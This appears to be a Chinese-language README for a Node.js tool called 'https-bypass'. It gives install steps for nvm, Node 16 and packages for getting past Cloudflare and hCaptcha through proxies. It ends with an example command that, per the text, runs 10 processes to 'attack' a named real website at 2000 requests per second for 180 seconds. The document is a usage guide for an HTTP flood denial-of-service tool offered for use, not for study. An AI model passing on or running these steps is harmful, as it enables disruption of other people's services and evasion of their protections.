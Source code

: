 # 需要到HTTP或SOCKS5代理
# 自行解决

### 部署nodejs
#### 使用git安装nvm
`git clone git://github.com/creationix/nvm.git ~/nvm`

#### 下载完成后加入系统环境

`source   ~/.bashrc`

#### nvm安装nodejs
`nvm install 16.15.0`
#### 如需要安装另外的版本

`nvm install 版本号`

#### 安装
```shell
git clone https://github.com/piokto/https-bypass.git
cd https-bypass
```
#### 安装npm模块
```shell
npm i requests
npm i https-proxy-agent
npm i crypto-random-string
npm i events
npm i fs
npm i net
npm i cloudscraper
npm i request
npm i hcaptcha-solver
npm i randomstring
npm i cluster
npm i cloudflare-bypasser
```
example：
node https-bypass.js GET 10 https://baidu.com 180 2000
使用GET 运行10个node进程攻击目标180秒 每秒2000次访问


